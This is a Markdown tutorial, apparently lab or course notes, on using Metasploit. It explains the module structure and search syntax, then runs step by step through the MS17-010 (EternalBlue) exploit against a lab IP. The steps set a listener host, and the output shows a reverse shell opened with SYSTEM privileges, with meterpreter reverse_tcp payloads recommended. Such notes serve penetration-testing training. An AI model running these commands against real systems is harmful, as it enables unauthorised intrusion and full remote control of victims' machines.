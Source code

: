 

## Module Structure

**Syntax:**

```
<No.> <type>/<os>/<service>/<name>
```

**Example:**

```
794  exploit/windows/ftp/scriptftp_list
```

**Module Components:**

|Component|Description|
|---|---|
|**Index No.**|Number shown in search results for quick selection (`use <no.>`)|
|**Type**|One of: `auxiliary`, `encoder`, `exploit`, `nop`, `payload`, `plugin`, `post`|
|**OS**|Target operating system (e.g., `windows`, `linux`)|
|**Service**|Related service (e.g., `smb`, `ftp`)|
|**Name**|Purpose of the module|

**Note:** Only `auxiliary`, `exploit`, and `post` modules can be directly run with `use <no.>`.

---

## Searching for Modules

**Basic command:**

```
msf6 > help search
```

**Example:**

```
msf6 > search eternalromance
```

**Refined search example:**

```
msf6 > search type:exploit platform:windows cve:2021 rank:excellent microsoft
```

---

## Using a Module (Example: MS17-010)

### 1. Scan Target

```
nmap -sV 10.10.10.40
```

### 2. Search Module

```
msf6 > search ms17_010
```

### 3. Use Exploit Module

```
msf6 > use 0
```

### 4. Show Options

```
msf6 exploit(windows/smb/ms17_010_psexec) > options
```

### 5. Set RHOST

```
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
```

### 6. Set LHOST (Global)

```
msf6 exploit(windows/smb/ms17_010_psexec) > setg LHOST 10.10.14.15
```

### 7. Run the Exploit

```
msf6 exploit(windows/smb/ms17_010_psexec) > run
```

---

## Successful Exploitation Output

```
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully
[*] Command shell session 1 opened (10.10.14.15:4444 -> 10.10.10.40:49158)
meterpreter> shell
C:\Windows\system32> whoami
nt authority\system
```

---

## Tips and Best Practices

- Use `info` for detailed module description:
    
    ```
    msf6 exploit(...) > info
    ```
    
- Use `setg` for global persistence:
    
    ```
    setg RHOSTS <ip>
    setg LHOST <your_ip>
    ```
    
- Payloads like:
    
    ```
    windows/meterpreter/reverse_tcp
    ```
    
    allow interactive control of the target.